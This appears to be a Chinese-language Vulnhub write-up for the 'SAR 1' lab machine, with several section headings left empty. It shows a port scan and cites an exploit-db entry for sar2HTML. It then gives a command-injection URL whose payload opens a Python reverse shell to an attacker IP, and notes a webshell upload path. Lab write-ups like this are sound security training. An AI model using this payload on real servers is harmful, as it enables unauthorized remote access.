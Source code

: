 ```yaml
---
layer: article
title: Vulnhub	425 SAR 1
tags: pentest vulnhub writeup
---
```


考点：文件上传、命令执行

靶机链接：<https://www.vulnhub.com/entry/sar-1,425/>

## 环境配置

## 初步打点

端口扫描
WEB测试
漏洞发现

## 获得权限

靶机测试

## 提权


425

```bash
$ sudo nmap -v -A -p- $tip
Scanning 10.0.2.12 [65535 ports]
Discovered open port 80/tcp on 10.0.2.12
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

看来要硬钢web应用了

搜一下sar2ascii.tar发现

https://www.exploit-db.com/exploits/47204 试了试



这里用python失败了，可以替换python3.7 python3.6 python3.8

```
http://10.0.2.12/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

另外可以点击new直接上传webshell，对应目录是/sarDATA/uPLOAD/

```bash
http://10.0.2.12/sar2HTML//sarDATA/uPLOAD/2.php
```


